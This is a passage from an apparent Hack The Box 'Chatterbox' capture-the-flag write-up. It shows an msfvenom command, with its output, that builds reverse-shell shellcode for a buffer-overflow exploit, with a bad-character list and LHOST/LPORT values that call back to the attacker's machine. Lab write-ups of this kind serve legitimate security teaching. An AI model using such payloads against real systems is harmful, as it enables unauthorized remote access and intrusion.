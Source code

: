 ![htb-chatterbox-01a](/images/htb/chatterbox/htb-chatterbox-01a.png)

Within the comments of the code, it shows that it's an `msfvenom` generated payload used to execute calc.exe. It's also worth noting everything after the `-b` switch, as this indicates the bad characters I need to make sure I exclude from my payload.
```bash
# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

#Payload size: 512 bytes
```

I just copy and paste the example in the script file and substitute the values I need. 
The example uses `msfvenom` to generate the shellcode to execute on the remote system once the buffer has been overflowed.

I specify `windows/shell/reverse_tcp` as the payload, the encoding type, and also the bad characters to exclude as noted before. Finally, I punch in the IP address and port of my local machine in the `LHOST` and `LPORT` parameters so the reverse shell will reach back to me once executed on the remote system. 

```bash
root@kali:~/htb/chatterbox# msfvenom -p windows/shell/reverse_tcp -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python LHOST=10.10.14.63 LPORT=9001 > toteslegit
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 808 (iteration=0)
x86/unicode_mixed chosen with final size 808
Payload size: 808 bytes
Final size of python file: 3872 bytes
```
